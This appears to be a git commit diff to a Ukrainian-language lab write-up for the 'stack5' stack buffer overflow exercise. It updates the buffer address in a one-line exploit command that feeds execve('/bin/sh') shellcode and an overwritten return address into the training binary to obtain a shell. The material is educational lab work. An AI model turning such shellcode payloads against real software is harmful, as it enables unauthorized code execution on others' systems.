

Lab8 upd

diff --git a/Lab8/Stack5/README.md b/Lab8/Stack5/README.md
@@ -46,7 +46,7 @@ x/24x $esp-96
 ![Core Dump](img/core_dump.png)  
 
 Як видно на рисунку, програма вже намагалася виконати адресу ```0x41414141``` ('AAAA'), тому зміщення правильні. 
-Буфер користувача починається з ```0xbffffcb0```. Отже, маємо:  
-```(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (76 - 24) + '\xbf\xff\xfc\xb0'[::-1])"; cat) | ./stack5```
+Буфер користувача починається з ```0xbffffc60```. Отже, маємо:  
+```(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (76 - 24) + '\xbf\xff\xfc\x60'[::-1])"; cat) | ./stack5```
 
 ![Shell Test](img/shell_test.png)  
